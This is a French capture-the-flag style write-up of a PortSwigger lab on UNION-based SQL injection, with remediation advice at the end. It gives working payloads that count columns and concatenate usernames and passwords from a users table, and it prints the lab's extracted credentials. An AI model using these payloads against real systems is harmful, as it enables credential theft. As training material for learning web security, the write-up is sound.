




# Lab 6 — UNION Attack : plusieurs valeurs dans une seule colonne

**Source** : PortSwigger Web Security Academy
**Titre du lab** : Attaque par injection SQL UNION, récupération de plusieurs valeurs dans une seule colonne
**Statut** : ✅ Résolu

## Objectif

Extraire les noms d'utilisateurs et mots de passe de la table `users` en les concaténant dans une seule colonne, puis se connecter en tant qu'administrateur.

## Contexte

L'application filtre les produits par catégorie. La requête SQL retourne 2 colonnes mais une seule accepte du texte. Il faut donc concaténer `username` et `password` dans cette unique colonne texte.

URL cible :https://0af400750329c5fb80313f8400700027.web-security-academy.net
## Vulnérabilité

Injection SQL dans le paramètre `category`, permettant d'injecter une clause UNION et d'extraire des données depuis la table `users`.

## Exploitation

**Étape 1** : Déterminer le nombre de colonnes.

**Tentative 1** (échec — erreur serveur) :Lifestyle' UNION SELECT NULL--
→ Erreur interne du serveur : 1 colonne insuffisante.

**Tentative 2** (succès) :Lifestyle' UNION SELECT NULL,NULL--
→ La requête retourne **2 colonnes**.

**Étape 2** : Identifier la colonne texte.Lifestyle' UNION SELECT NULL,'abc'--
→ La **colonne 2** accepte du texte.

**Étape 3** : Extraire username et password concaténés dans la colonne 2.

**Payload final** :Lifestyle' UNION SELECT NULL, username || '~' || password FROM users--
**Résultat** : Les credentials apparaissent dans la page :
- `wiener~ok1571dp36c2rozvqq7d`
- `carlos~74whmawvkxfvxemlr4au`
- `administrateur~kf108t0fg5d5ofgcuywp`

**Étape 4** : Connexion avec les credentials de l'administrateur.

- **Nom d'utilisateur** : `administrator`
- **Mot de passe** : `kf108t0fg5d5ofgcuywp`

## Résultat

Connexion réussie en tant qu'**administrateur**. Le lab a été marqué comme **Résolu**.

## Pourquoi concaténer ?

Quand une seule colonne accepte du texte, on ne peut pas mettre `username` et `password` dans deux colonnes séparées. On les fusionne donc en une seule chaîne avec un séparateur (`~`) pour les distinguer facilement :
```sql
username || '~' || password
```
Donne : `administrateur~kf108t0fg5d5ofgcuywp`

## Impact

Un attaquant peut extraire l'intégralité des comptes utilisateurs même quand une seule colonne texte est disponible, grâce à la concaténation SQL.

## Remédiation

- Utiliser des **requêtes préparées (prepared statements)**
- **Hacher les mots de passe** avec bcrypt ou argon2
- Ne jamais afficher directement les données de la base de données dans la page
- Mettre en place un **WAF** pour détecter les injections UNION

## Captures d'écran

**1. Erreur avec 1 NULL — mauvais nombre de colonnes**


**2. Succès avec 2 NULL — nombre de colonnes confirmé**


**3. Colonne 2 accepte du texte**


**4. Extraction des credentials**


**5. Connexion réussie en tant qu'administrateur**

